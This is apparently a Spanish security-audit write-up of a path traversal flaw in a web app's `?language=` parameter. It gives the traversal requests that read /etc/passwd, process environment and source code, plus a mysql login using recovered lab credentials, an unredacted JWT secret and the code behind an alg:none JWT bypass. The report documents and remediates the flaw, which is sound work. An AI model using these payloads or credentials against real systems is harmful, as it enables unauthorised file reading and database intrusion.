





# 📂 F-034 — 🏆 Path Traversal en `?language=`: lectura arbitraria de ficheros sin autenticación, con compromiso cruzado de PixelForge

   

> [!IMPORTANT]
> El selector de idioma (`?language=...`) carga un fichero de traducciones sin sanear la ruta, y si no se puede parsear como JSON **muestra el contenido en crudo**. Sin ninguna autenticación, esto permite leer cualquier fichero del sistema — incluidas variables de entorno con **credenciales reales de la base de datos de PixelForge** y el **código fuente completo de StreamWave**, con más de media docena de secretos hardcodeados. Candidato a hallazgo más grave de toda la auditoría BigShop.

## 📖 Contexto

**Endpoint:** `GET /?language={ruta}` — sin autenticación.

## 🔬 Explotación paso a paso

```
GET /?language=../../../../etc/passwd
```



Confirmado en navegador real, sin sesión: `/etc/passwd` completo, con las 4 cuentas de sistema del cliente (`bigshop`, `wavelength`, `streamwave`, `pepe`).

### El salto a otra aplicación

```
GET /?language=../../../../proc/self/environ
```



```
GS_DB_HOST=127.0.0.1 GS_DB_PASS=gamepass GS_DB_USER=gameuser GS_DB_NAME=gamestore
```

`GS_` = GameStore = **PixelForge**. Verificado como real:

```bash
mysql -h 127.0.0.1 -u gameuser -p'gamepass' gamestore -e 'SHOW TABLES;'
# -> coupons, password_resets, users (acceso de lectura completo confirmado)
```

### El código fuente completo

`/proc/self/cmdline` revela el entry point: `node ... /opt/streamwave/server.js`.

```
GET /?language=../../../../opt/streamwave/server.js
```



```js
const JWT_SECRET = 'streamwave2024';
const STRIPE_SECRET_KEY = 'sk_live_[REDACTADO-EN-ESTE-INFORME]';
const AWS_ACCESS_KEY_ID = 'AKIA[REDACTADO-EN-ESTE-INFORME]';
const AWS_SECRET_ACCESS_KEY = '[REDACTADO-EN-ESTE-INFORME]';
const SENDGRID_API_KEY = 'SG.[REDACTADO-EN-ESTE-INFORME]';
const TWILIO_ACCOUNT_SID = 'AC[REDACTADO-EN-ESTE-INFORME]';
const ADMIN_SECRET = '[REDACTADO-EN-ESTE-INFORME]';
```
*(Valores reales capturados en las capturas de pantalla originales durante la auditoría — redactados aquí porque GitHub Push Protection bloquea el push al detectar formatos de clave de Stripe/Twilio reconocibles, incluso siendo valores de laboratorio. El `JWT_SECRET` se deja sin redactar porque es el dato relevante para la explotación documentada en [F-030](F-030-jwt-auth-bypass-streamwave.md) y no corresponde a ningún formato de clave de terceros detectable.)*



Y la causa raíz exacta de [F-030](F-030-jwt-auth-bypass-streamwave.md):



```js
if (header.alg === 'HS256') {
    const expected = crypto.createHmac('sha256', JWT_SECRET)...
    if (expected !== parts[2]) throw new Error('Invalid signature');
}
```
La verificación vive dentro de `if (header.alg === 'HS256')` — con `alg:'none'` se salta entera.

Y la causa raíz de este propio hallazgo:
```js
const raw = fs.readFileSync(path.join(__dirname, 'lang', language), 'utf8');
```

### 🤖 Automatización

[`scripts/streamwave_lfi_scan.py`](../scripts/streamwave_lfi_scan.py) — prueba una lista de ficheros sensibles contra el parámetro, variando la profundidad de `../`, sin dependencias externas.

```bash
python3 scripts/streamwave_lfi_scan.py
```

## 💥 Impacto

> [!CAUTION]
> Lectura arbitraria de ficheros, sin cuenta ni sesión, que desemboca en código fuente completo y credenciales reales de otra aplicación del cliente. Va más allá del alcance de una sola app: demuestra que las 4 "aplicaciones independientes" de BigShop comparten red/credenciales/filesystem.

- Lectura arbitraria de cualquier fichero legible por el proceso Node, sin autenticación.
- Compromiso cruzado: acceso de lectura a la base de datos de PixelForge desde un fallo en StreamWave.
- Divulgación completa del código fuente, con secretos de Stripe/AWS/SendGrid/Twilio/YouTube, secreto de sesión, `JWT_SECRET` y `ADMIN_SECRET`.
- Explica a nivel de código la causa raíz de F-030.

## 🛡️ Remediación

- Lista blanca explícita de valores permitidos para `language`; rechazar cualquier otro valor.
- Si se necesita ruta dinámica, normalizar y verificar que el resultado sigue dentro del directorio esperado.
- Eliminar el fallback de "mostrar contenido en crudo si no es JSON válido".
- Rotar inmediatamente todas las credenciales y secretos expuestos.
- Nunca hardcodear secretos en el código — usar variables de entorno o un gestor de secretos.

## Hallazgos relacionados

Explica la causa raíz de [F-030](F-030-jwt-auth-bypass-streamwave.md). Independiente de los demás.

---
⬅ [Volver al índice de writeups](README.md) · [README principal](../README.md) · [Informe técnico (PDF)](../docs/informe-BigShop.pdf)
